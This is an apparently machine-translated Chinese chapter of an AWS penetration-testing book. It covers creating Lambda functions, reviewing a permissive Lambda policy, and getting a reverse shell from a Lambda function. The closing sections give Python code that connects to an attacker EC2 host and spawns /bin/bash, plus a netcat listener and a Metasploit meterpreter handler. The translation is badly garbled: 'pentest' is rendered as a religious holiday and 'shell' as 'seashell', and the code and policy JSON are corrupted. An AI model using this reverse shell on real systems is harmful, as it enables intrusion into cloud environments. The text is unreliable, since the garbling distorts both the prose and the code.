





# 七、评估和测试 Lambda 服务

Lambda 服务运行的代码可以在以后根据需要响应 Lambda 环境中的事件和其他任务。这些事件和任务是 AWS 环境中发生的任何事情——例如 HTTP 请求、对 S3 存储桶的修改，以及正在启动的新 EC2 实例。这使得 Lambda 在为组织建立和扩展网络及其服务时成为一项必不可少的服务。但是，Lambda 确实存在一些问题，例如对访问 Lambda 的限制较弱，易受攻击的函数可能执行未经授权的操作，以及 Lambda 策略中构建的允许利用漏洞的规则。

本章将重点介绍 Lambda 中的漏洞发现如何导致利用服务和发现内部流程和对象。

在本章中，我们将介绍以下主题：

*   了解和建立 Lambda 服务
*   挖掘 Lambda
*   理解错误配置
*   用 Lambda 弹反弹壳

# 技术要求

本章中使用的代码可通过以下链接获取：[https://github.com/PacktPublishing/AWS-Penetration-Testing/tree/master/Chapter%207:%20Assessing%20and%20Pentesting%20Lambda%20Services](https://github.com/PacktPublishing/AWS-Penetration-Testing/tree/master/Chapter%207:%20Assessing%20and%20Pentesting%20Lambda%20Services) 。

您还需要在具有公共 DNS 名称的 EC2 实例上安装 Kali Linux。

查看以下视频以查看代码的运行：[https://bit.ly/35XHn7Q](https://bit.ly/35XHn7Q)

# 了解并建立 Lambda 服务

欢迎来到 Lambda，您的代码在一个易于运行和管理的服务器上执行。Lambda 是公司简化其组织内的运营和利用人员的工作的极好方法，因为 Lambda 可以极大地扩展和自动化基础设施。它只允许代码在需要执行时执行，并且可以帮助自动化其他服务，这样您就不必担心所有的维护！

让我们看看如何设置 Lambda 函数！

## 创建 Lambda 函数

Lambda 函数与 Python 函数非常相似，因为它们执行的代码是内置的，而不是外部的。在 Python 中，这就是我们所称的**内部**和**全局**语法。内部语法是在函数内构建的代码，只能在函数内运行，而全局语法可以在函数外运行。Lambda 函数运行函数中的所有内容。这些功能用于自动化、扩展和执行其间的所有操作。虽然我们不打算讨论使用 Lambda 函数的各种原因，但您可以在 Amazon 上找到大量关于 Lambda 的可能性的资源。要了解更多信息，请查看此 AWS 资源以获取有关 AWS Lambda 的详细信息：[https://docs.aws.amazon.com/lambda/latest/dg/welcome.html](https://docs.aws.amazon.com/lambda/latest/dg/welcome.html) 。

让我们重新登录到 AWS 控制台，将 Lambda 仪表板快捷方式固定到主仪表板。固定 Lambda 函数图标将使我们更容易更快地引用 Lambda 部分，因为定位 Lambda 时不必滚动浏览所有服务。

以下步骤帮助我们创建 Lambda 函数：

1.  Go to the AWS console and search for **Lambda**:

    

    图 7.1–将 Lambda 固定到 AWS 控制台

2.  一旦你有了 Lambda 快捷方式，继续并点击它；让我们开始制作一个可以测试的函数。进入 Lambda 仪表板后，点击**创建函数**开始创建函数。对于本例，创建一个名为**testFunction**的函数。**运行时**选项将使用**Python 3.6**，这将是我们编写代码的环境：

图 7.2–从头开始创建 Lambda 函数

完成后，您将显示在可以保存和“测试”功能的位置。虽然查看 function configuration manager 中的各个部分很重要，但我们现在不必太担心，因为它与我们正在做的事情没有多大关系。重要的一点是，我们了解在 AWS 控制台中的何处以及如何设置 Lambda–正如我们在本章中所做的，并且将在本章中做更多。

重要提示

有关 Lambda 的更多信息，请查看 AWS 文档：[https://docs.aws.amazon.com/lex/latest/dg/gs-bp-create-lambda-function.html](https://docs.aws.amazon.com/lex/latest/dg/gs-bp-create-lambda-function.html) 。

让我们在下一节中进一步了解这些知识，并开始了解如何使用 Lambda 创建更多，以及安全工程师和 Pentester 如何使用某些技术来发现 Lambda 中的错误配置。

# 挖掘 Lambda

现在我们已经简单介绍了什么是 Lambda 以及如何建立我们自己的 Lambda 服务，现在是我们开始研究 Lambda 的一些安全问题的时候了。在一次真正的五旬节约会中，你可能会看到其中一些。说到 AWS，作为一个 pentester，我所看到的最重要的问题之一是与 Lambda 相关的政策问题。政策是限制和允许访问资源的，类似于我们在[*第 4 章*](04.html#_idTextAnchor171)*中看到的，利用 S3 桶*。在本节中，我们将使用相同的*方法*来做一些事情，但我们将关注 Lambda 的错误配置。

重要提示

你会开始注意到，虽然本书每一章的目标不同，但方法论或多或少是相同的，因为我们使用相同的步骤从目标中提取结果。

让我们开始推进更多的概念，并开始在 Lambda 中构建一些东西。让我们首先创建一个与 S3 一起工作的 Lambda 函数。

## 创建与 S3 兼容的 Lambda 函数

在这一部分，我们将继续建设。了解 Lambda 服务及其功能非常重要。在这种情况下，它能够将服务链接在一起，这些服务可能是 pentest 期间的潜在**枢轴**点。

重要提示

旋转是进入后在环境中进行横向运动的过程。

我们在这里要做的是开始研究 Lambda 和 S3 是如何协同工作的，然后我们可以研究一些错误配置，如果不适当缓解，这些配置可能会导致一些问题。在利用系统之前，了解系统是如何创建的是至关重要的。这样做使我们能够采取“亲自动手”的方法来缓解这些问题，也有助于我们了解如何在各种服务（如 S3 和 Lambda）之间进行第一手的流程中断。

以下是一个关于的想法：

1.  **创建 S3 bucket**：该 bucket 将链接到 Lambda 函数。
2.  **创建 Lambda 函数**：Lambda 函数将集成为 S3 bucket 的触发器。
3.  **将功能与 S3**集成。
4.  **从五旬斋的角度开始探索**我们创造了什么。

现在让我们开始！遵循以下步骤：

1.  To begin, we will create our S3 bucket with the AWS command line, and verify that our bucket was created by viewing it from the AWS console – this is best practice in my opinion. Make sure you have your AWS ID and AWS secret for your account at hand. Once you have your credentials, log in to your AWS environment using the **aws configure** command.

    重要提示

    如果您需要帮助查找钥匙，这里有一个很好的参考资料供您使用：[https://aws.amazon.com/blogs/security/how-to-find-update-access-keys-password-mfa-aws-management-console/](https://aws.amazon.com/blogs/security/how-to-find-update-access-keys-password-mfa-aws-management-console/) 。

2.  Now that you're in the environment, let's get started and create a bucket! Using the command line, use the following command to make a bucket that we will store in our AWS environment:

    **$aws s3api 创建 bucket——bucket pentestawslambda——地区 us-west-2——创建 bucket 配置位置约束=us-west-2**

    重要提示

    对于 bucket 名称，您需要使用自己独特的命名方案。另外，如果您没有指定区域，则默认情况下会将其放置在**美国东部**区域。

3.  使用命令行创建完 bucket 后，登录 AWS 控制台并验证 bucket 是否已创建。我们可以通过检查 S3 bucket dashboard 来验证这一点：

图 7.3–为 Lambda 创建的 S3 存储桶

现在我们已经设置好了存储桶，现在是时候继续制作另一个 Lambda 函数了，我们可以通过触发器将新存储桶连接到该函数。这个 bucket 与我们创建的第一个 Lambda 函数略有不同，但是现在您知道了设置 Lambda 函数的基本方法。

让我们先创建一个新函数，并将其调用为**s3lambda**。请记住，您只能使用数字和小写字母！对于**运行时**，选择 Python 的当前版本。对于本例，我们使用的是 Python 3.8。在单击**创建函数**之前，我们确实需要对 Lambda 函数做一些其他事情。

现在我们需要创建一个与 Lambda 函数关联的基本权限角色。为此，请执行以下步骤：

1.  Click on the **Permissions** setting in the Lambda function dashboard. You'll see a few options that you can change to your liking. For this example, we will set the following attributes:

    --**执行角色**：**从 AWS 策略模板**创建新角色

    --**角色名称**：**s3_pentesting_lambda**

    --**策略模板**：**亚马逊 S3 对象只读权限**和**AWS 配置规则权限**：

    

    图 7.4–为 S3 创建新功能

2.  然后，我们需要继续并**在 Lambda 函数中创建一个触发器**。此函数由 Lambda 环境中发生的事情触发。点击**添加触发器**开始，选择**S3**链接我们制作的名为**pentestawslambda**的 bucket 并保存：

图 7.5–创建 S3 触发器

干得好–我们已经创建了一个新的 Lambda 函数，它与触发器链接！重要的是要理解 Lambda 可以链接到其他环境，因为在真正的测试中可能会遇到它。如果发现有漏洞的 Lambda 函数连接到其他服务，请确保详细说明问题以及有漏洞的 Lambda 函数如何使其他服务变弱。

说到错误配置导致的漏洞，让我们继续讨论 Lambda 中的错误配置。

# 理解错误配置

在弱策略中查找错误配置是测试 AWS 服务（如 Lambda 和 S3）的一个更重要部分。由于服务中已经“内置”了安全性，Lambda 中出现的许多问题都是由于用户端的错误配置造成的。这并不意味着不会犯错误，也不意味着 Lambda 内部不会存在固有的缺陷；然而，为了便于讨论，我们将研究它的配置。

当以“松散”的方式设置某个属性时，会发生**错误配置**——针对 Lambda 策略。“宽松”一词意味着政策允许的范围超出了预期。这些策略允许未经授权的个人查看不供其查看的信息，或者更糟的是，允许恶意载体查看和过滤这些数据。

**最低特权**是我们要注意的另一个潜在问题，我们要确保它在目标 AWS 环境中得到实践。这意味着策略的制定只允许用户和角色所需的最小权限集，并根据需要授予额外的权限。我们将角色和策略中的权限视为策略**动作**，这些动作被分类为**列表**、**读**、**写**、**权限管理**或**标签**。策略操作中标注为**“*”**的操作意味着任何人都可以在服务上执行操作，这永远都不好！

那么，是什么导致了这些宽松的政策，我们如何在 Lambda 中找到它们？这就是我们即将发现的。此外，我们将使用 AWS CLI 中内置的工具来实现这一点。

首先，我们将开始研究我们用 S3 制作的桶。回想一下，在创建 Lambda 函数并将其与 bucket 集成时，我们设置了一些非常“松散”的权限。让我们来看看如何容易和快速地升级到一些它不打算做的事情。

重要提示

在评估 Lambda 函数时，我们将同时进行 Lambda 和 S3 安全检查。

接下来，让我们查询一下我们创建的 Lambda 函数的策略。这将为我们列出 Lambda 函数的属性：

$aws lambda 获取策略--函数名 s3lambda--区域 us-west-2

{

“策略”：“{Version\”：“2012-10-17\”，“Id\”：“default\”，“Statement\”：[{Sid\”：“lambda-74fa4b03-e053-47e0-bdee-0288118c1b3e\”，“Effect\”：“Allow\”，“Principal\”：{“Service\”：“s3.amazonaws.com\”，“Action\”：“lambda:InvokeFunction\”，“Resource\”：“arn:aws:3162:lambda:125us-west:“lambda:125638”条件：{\“：{AWS:SourceAccount\：\“030316125638\”，“ArnLike\”：{AWS:SourceArn\“：\“arn:AWS:s3:：：pentestawslambda\”}}”，

“修订 ID”：“692f71fd-40d2-40f6-99b0-42c4e1d7a353”

}

如您所见，策略的布局非常简单。但是，如果仔细观察，您会注意到这个函数的一些有趣之处。在继续之前，让我们仔细看看函数。如果我们正在进行 pentest 测试，并采取类似的政策，我们将得出以下结论：

*   允许**调用**函数的**允许**动作。虽然这很好，但我们通常不想让任何人这样做。允许任何人调用都会在以后产生大问题，因为如果有人破坏内部 AWS 网络，他们基本上可以继续运行 Lambda 函数。
*   我们还看到了政策中的**pentestawslambda**S3 桶。虽然这是更多的信息，但它让我们知道 S3 存储桶的完整 URL。攻击者可以使用此信息来发现有关 S3 存储桶的更多信息，或者发现该环境中可能存在的更多存储桶。因此，访问控制（如 IAM 策略）对于仅让那些需要了解访问权限的人能够访问 AWS 环境中的服务至关重要。

现在，我们知道了更多关于如何减轻 LAMBDA 和注意什么，让我们采取不同的方法，并看看我们如何能够在一个 lambda EnvIR 的环境中获得持久的访问。

# 用 Lambda 弹反弹壳

本章的最后一节介绍了我最喜欢的部分的五旬斋。本节将引导我们设置易受攻击的 Lambda 函数，然后使用该函数在 pentesting 机器上启动反向连接。对于本节，我们需要使用以下内容：

*   使用公共 DNS 名称的 EC2 实例上的 Kali Linux
*   A Lambda function

    重要提示

    确保您正在使用带有公共 DNS 的 EC2 实例。Lambda 函数需要连接到该公共 DNS。

## 反弹壳的凉爽度

得到一个“外壳”是五旬斋最有价值的部分之一。能够获得反向 shell 意味着您能够成功地利用目标并在该机器上获得持久性（持久性是该机器上的终端连接）。然而，这不仅仅是一种联系；它还强调了测试环境中的问题。例如，调用 web 的服务器可能有一些规则，允许您通常看不到的各种传出连接。这使得反向炮弹能够向公众公开。

### 五旬斋的贝壳？

客户可能希望您测试对其安全性的监控和检测。创建一个易受攻击的 Lambda 函数，在网络内外进行调用，这是测试公司监控实践和解决方案的一种非常好的方法，同时可以享受 Lambda 带来的乐趣。

获取一个外壳远不止*只是*获取一个外壳——它测试监控、防火墙规则和总体安全态势。在 pentest 期间，如果您能够使用易受攻击的 Lambda 函数在网络外部获得反向外壳，则可以假定网络中的其他漏洞可以使用相同的路由在网络外部调用。

现在我们了解了有关反向 shell 的更多信息，让我们看看如何设置一个易受攻击的 Lambda 函数，该函数可以对我们进行回调，并允许远程访问 Lambda 环境。

重要提示

在继续之前，必须知道 Lambda 是以毫秒为单位计算账单的。如果您持续运行 Lambda 函数，您将为此收取费用。

时间到了！

## 道德黑客游戏计划

让我们来了解一下 shell，现在我们了解了一些关于 shell 的背景知识以及它们对 pentesting 的影响。在实际执行之前，我们将查看事件的顺序。在执行攻击路径时，最好在执行之前制定好游戏计划：

1.  使用公共 DNS 启动 EC2 实例。
2.  创建一个易受攻击的 Lambda 函数，该函数将回调公共 DNS。
3.  在 EC2 实例上启动侦听器。
4.  测试并运行易受攻击的 Lambda 函数。
5.  拿个贝壳。

### 得到一个贝壳

现在我们已经有了一个游戏计划，让我们继续并启动我们之前创建的 EC2 实例。一旦启动并运行，继续并登录到我们的 Lambda 仪表板。现在，让我们通过以下步骤来了解如何执行此操作：

1.  From here we will click the **Create function** button to get started:

    

    图 7.6–创建另一个功能

2.  Once you have logged in, create a new function and name it **LambdaShell** and ensure that **Python 2.7** is selected. The role we created will work for this example:

    

    图 7.7–为反向外壳创建函数

3.  Now it's time to start setting up our function to create a reverse connection to the EC2 instance. I set up a GitHub repository from which we can pull the code: [https://github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%207:%20Assessing%20and%20Pentesting%20Lambda%20Services/Lambda_Shell.txt](https://github.com/PacktPublishing/AWS-Penetration-Testing/blob/master/Chapter%207:%20Assessing%20and%20Pentesting%20Lambda%20Services/Lambda_Shell.txt).

    您输入的代码应该如下所示：

    **导入套接字，子流程，操作系统**

    **def lambda_ 处理程序（事件、上下文）：**

    **#TODO 执行**

    **s=socket.socket（socket.AF\u INET，socket.SOCK\u STREAM）**

    **s.connect（“<主机名>”，1337））**

    **os.dup2（s.fileno（），0）**

    **os.dup2（s.fileno（），1）**

    **os.dup2（s.fileno（），2）**

    **p=subprocess.call（[“/bin/bash”，“-i”）；**

    这里的代码实质上是设置一个名为**lambda_handler**的函数，该函数将执行从 lambda 函数到攻击者机器的连接。请注意，当我们调用**s.connect**时，我们需要将我们的**公共 DNS**放在代码中，其中显示**主机名**。一旦函数被执行，它将启动一个到我们机器的连接，并在目标 Lambda 函数上执行一个 bashshell。

    确保您指定要使用的**端口**，并且**主机名**已设置为 EC2 实例上攻击者机器的公共 DNS 名称。您可以通过查看您的 Kali EC2 实例的描述（可在 EC2 仪表板上找到）来查看公共 DNS 名称。

4.  Next, we need to make sure that the function does not time out too quickly. By default, the function should be set to time out after about 3 seconds or so. We need to establish persistence, so we can go ahead and set the timeout to about **5** minutes – feel free to set it longer if you like:

    重要提示

    Lambda 功能允许的最长时间为**15**分钟。

    

    图 7.8–设置外壳超时

5.  接下来，您需要 SSH 到您的 Kali 机器中，并在您在有效负载中分配的端口上设置一个**netcat 侦听器**。我还建议您使用**su-**命令切换到**根**帐户–这样您就不必在每个命令之前键入**sudo**，因为您将作为根帐户运行。
6.  The next command sets up the **netcat** listener that we will use to **listen** for incoming connections from our target **Lambda service**:

    **$nc-lvnp 1337**

7.  We should have our listener standing by and our function ready to test. Now comes the time when we get our reverse shell and gain some persistence in the Lambda environment. To execute, click the **Test** button in the top-right corner. You'll be prompted with a window that displays **Configure test event** – go ahead and click **Create** to move forward by clicking **Test** again. Note that before clicking **Test**, you will be given an event template with three keys. Leave those as default:

    

    图 7.9–在执行功能之前配置测试事件

8.  单击**测试**按钮后，您将看到该功能正在仪表板中运行。现在回到卡利机器上的终端。您将看到 Lambda 实例上的反向连接！可以在 shell 中随意运行一些 Linux 命令：

图 7.10–获得反向外壳

过来看！我们可以始终访问 Lambda 环境！虽然这是一个既酷又有趣的例子，但我们需要知道一些潜在的问题，以及为什么我们要在 pentest 期间记录这些问题。假设我们正在测试 Lambda 环境中的弱策略。策略不应该像我们那样允许 Pentester 在 Lambda 环境之外执行调用–记住，我们使用了公共 DNS，这意味着我们在 VPC 之外！

好的，我们在 AWS 控制台的 GUI 中完成了所有这些，这很有趣，也很酷。让我们快速查看一个更实用的方法——使用 AWS CLI。我们将假定凭据已被破坏，并且该函数已准备就绪。

## 使用 AWS CLI 调用

现在，我们已经在环境中完成了我们的功能，让我们看看如何仅使用托管在公共 EC2 实例上的 Kali Linux 机器将其用于持久性。首先，请确保您已通过 SSH 登录到 Kali，并在命令末尾放置**&**在后台运行**netcat**。在后台运行该命令允许您仍然使用终端：

$nc-1337 利弗&

现在，您的侦听器已在后台设置好，可以开始了。在执行连接之前，我们需要配置 AWS 环境。在您的终端中键入**aws 配置**，并确保您使用我们在前面章节中使用的 ID 和密钥。设置为环境后，运行以下命令以启动 shell：

$aws lambda invoke——函数名<<lambda arn="">>——调用类型 RequestResponse outfile.txt——区域<<aws region="">></aws></lambda>

重要提示

您可能需要在 Kali 实例上安装 AWS CLI。要安装 AWS CLI，请运行以下命令：**$apt get install awscli-y**。

正如你所看到的，在 Lambda 中获得一个外壳可能很有趣，但对毫无戒心的企业来说也可能是危险的。解决这一问题的一个很好的方法是在网络中部署监控解决方案，如网络预防和检测系统，这些设备具有检测出网络的错误流量的出口规则，以及查看进入的数据包的入口规则。关于 AWS，**CloudTrail**是一个很好的资源，可以在尝试检测 AWS 环境的流量时使用。

在本书中，我们已经讨论了很多关于 Metasploit 的内容，现在让我们看看如何将 Metasploit 与 Lambda 结合使用。我们将研究如何利用 Metasploit 中的处理程序来捕获会话。

重要提示

会话是在 Metasploit 中已挂接的连接。

## 与 Metasploit 和 Lambda 玩得开心

现在，我们了解如何用 Python 和 AuthT1，lambda 创建 shell 脚本，让我们来看看如何使用 Meta SasPIT 来获得类似的结果！在这次演习中，我们可以使用与以前相同的有效载荷；但是，如果重新启动实例或使用不同的 EC2，则可能需要更改实例 DNS 名称。

在我们开始之前，让我们讨论一下我们将要做什么；记住，最好在执行之前制定一个计划，即使这个计划很小！例如，我们需要使用内置在 Metasploit 中的**处理程序**。处理程序只是简单地混合到有效负载中来处理和监视连接，就像我们使用**netcat**建立连接一样。当我们使用 Lambda 函数设置反向 shell 时，我们了解了**netcat**。

由于我们之前在[*第 3 章*](03.html#_idTextAnchor098)*中使用过 Metasploit，探索 Pentesting 和 AWS*，因此无需讨论 Metasploit 或如何启动它。然而，我们需要确保使用正确的有效载荷。以下步骤将展示如何使用 Python 负载设置处理程序，该负载将捕获来自易受攻击的 Lambda 函数的连接。

启动 Metasploit 并输入以下命令以开始设置处理程序：

$use 漏洞利用/多重/处理程序

$set-payload-python/meterpeter/reverse\u-tcp

$set lhost<<ec2 instance="" dns="">></ec2>

$set lport 1337

$run

一旦开始运行处理程序，处理程序将进入**监听**模式，并开始等待传入连接。这与**netcat**的工作原理类似，只是我们在解释 shell 时使用了 MeterMeter，而不是与 shell 和**netcat**连接时使用的默认 Bash shell。MeterMeter 外壳比**netcat**连接功能强大得多，因为它们提供了大量的模块，您可以在 MeterMeter 外壳中加载这些模块。我们将在[*第 9 章*](09.html#_idTextAnchor381)**中了解更多关于它的信息，包括与 Metasploit 的现实生活 Pentesting 等等！*。*

现在，我们的侦听器正在运行，请返回易受攻击的 Lambda 函数并对其进行测试，然后尝试连接到 MeterMeter 侦听器。如果一切顺利，你将有一个舞台，然后是一个会议。您的会话是您与目标的交互式 shell：

图 7.11–通过流量计获得反向外壳

太好了，现在我们在 Lambda 实例上有一个通过 MeterMeter 的交互 shell。如果此 Lambda 实例与其他资源连接，则会存在旋转的可能性–但是，在本例中，我们不太担心这一点。在[*第 9 章*](09.html#_idTextAnchor381)*中会有更多关于旋转的内容，真实生活中与 Metasploit 的 Pentesting 等等！*。现在，您可以随意移动 shell，尝试不同的有效负载，甚至扩展您的环境，看看您还可以做些什么！

完成本书的这一部分真是太棒了！本章重点介绍了 pentesting 中使用的一些新技术，您还学习了如何在 Lambda 上获得 re 韵文外壳！

# 总结

在本章中，我们介绍了如何在 AWS 中创建 Lambda 函数及其功能。我们还研究了 Lambda 的易受攻击问题，以及这些问题可能给未能隔离这些问题的组织带来的漏洞。创建反向 shell 有助于我们了解如果环境中存在易受攻击的 Lambda 函数，可能会出现的问题的严重性。

在下一章中，我们将开始研究我们如何攻击 AWS API，以及它们如何处理请求，并讨论用于保护请求的技术。

# 进一步阅读

*   交互式 Lambda shell:[http://www.lambdashell.com/](http://www.lambdashell.com/)
*   Metasploit 处理程序：[https://www.rapid7.com/db/modules/exploit/multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler)